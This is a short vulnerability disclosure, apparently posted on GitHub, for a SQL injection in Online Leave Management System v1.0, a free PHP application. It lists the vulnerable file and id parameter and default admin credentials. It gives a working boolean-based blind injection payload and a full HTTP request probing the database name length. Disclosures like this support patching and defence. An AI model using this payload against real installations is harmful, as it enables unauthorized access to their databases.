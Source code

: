 # Online Leave Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Zhang Huaiyu

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /leave_system/admin/employees/manage_leave_type.php?id

Vulnerability location: /leave_system/admin/employees/manage_leave_type.php?id=,id

dbname=leave_db,length=8

[+] Payload:  /leave_system/admin/employees/manage_leave_type.php?id=11%27%20and%20length(database())%20=8--+ // Leak place ---> id

```sql
GET /leave_system/admin/employees/manage_leave_type.php?id=11%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

length=8
![image](https://user-images.githubusercontent.com/54017627/183633907-66d690c4-228d-48b3-a37f-3b99bf566dae.png)


length=9
![image](https://user-images.githubusercontent.com/54017627/183633949-24b8326a-d7d1-4976-ae98-5698476aef74.png)

